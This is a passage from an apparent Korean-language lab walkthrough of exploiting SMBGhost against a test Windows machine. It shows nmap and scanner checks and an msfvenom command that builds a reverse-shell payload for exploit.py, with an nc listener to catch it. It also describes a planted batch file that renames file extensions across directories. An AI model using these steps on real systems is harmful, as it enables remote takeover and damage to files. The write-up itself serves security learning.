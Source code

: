 Victim 환경에서 **Windows 기능 켜기/끄기**를 통해 `SMB Direct`를 통해 SMB를 직접 활성화 하는 방법과 파일 탐색기 좌측에 해당하는 **네트워크**를 클릭하여 `SMB` 기능을 활성화 하도록 합니다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/2dcdbc56-eb26-445d-8577-6eb682689bcd">
</p>

피해자 PC에서 Remote Shell 연결된 이후 공격자 PC에서 악성 파일을 다운로드 받고 실행할 수 있게 하기 위해 공격자 서버를 `enable`한다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/b5b39d18-0a65-47d0-87d5-569993c8e68a">
</p>

다운로드 및 실행을 하게 할 파일은 `extension_rename.bat` 파일로 다운로드 된 경로로부터 모든 하위 디렉토리 내 파일 확장자를 변경하는 파일을 만들어두었습니다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/f8e1ca85-6b2f-483a-95f1-54d8fb4a648b" width = 600>
</p>

피해자 PC `nmap` 결과 SMB의 포트번호인 **445** 번호가 `open` 상태인 것을 확인하였습니다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/ef022d11-7d2d-4cb5-8490-87582ccf1144" width = 600>
</p>

`SMBGhost Scanner`를 통해서 확인한 결과 이 또한 `Vulnerable` 한 것을 확인할 수 있습니다.

이후 `exploit.py` 내 공격자 PC와의 Remote Shell 연결을 위한 payload 변경이 필요하다.

```
msfvenom -a x64 --platform windows -p windows/x64/shell_reverse_tcp lhost=192.168.124.128 lport=13202 -f python
```

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/e4cc9bf0-bf59-4cf7-b955-289fd00056f6">
</p>

이렇게 python 형태로 나온 Payload를 `exploit.py`의 `USER_PAYLOAD`에 삽입한다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/742b881d-31af-48e5-80ef-3955418db3bd">
</p>

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/a9afd140-deef-43e4-89ba-f57381205b9b">
</p>

한 쪽의 터미널은 remote shell 연결을 받을 `nc -lnvp 13202` 명령어를 진행하고, 다른 한 쪽의 터미널에서는 피해자 PC로의 Exploit을 진행하면 된다. 하지만 이처럼 **Time out**에 대한 에러가 나는 경우 아래와 같은 경우가 발생한다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/38461a78-611e-4c33-8c9e-65da8f23c41c">
</p>
